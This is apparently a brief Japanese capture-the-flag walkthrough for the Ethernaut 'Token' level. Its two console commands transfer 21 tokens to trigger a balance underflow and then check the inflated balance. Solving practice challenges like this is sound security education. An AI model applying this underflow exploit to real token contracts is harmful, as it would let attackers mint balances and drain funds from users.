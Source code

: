<img src="./images/token.png" width="900" alt="Ethernaut Token">
</p>
<br/>


1. コントラクトのアドレスを入力して、21を入力する

```bash
await contract.transfer("0x70147a35F3f84F7D4d7c8bA5a89648e3cFBDAA5C", 21)
```

2. 自分のアドレスに送られたトークンの数を確認する

```bash
x = await contract.balanceOf("0xe071EeD2EB7CA3514e40d81533046aa90D12f768")

x.tostring()
```
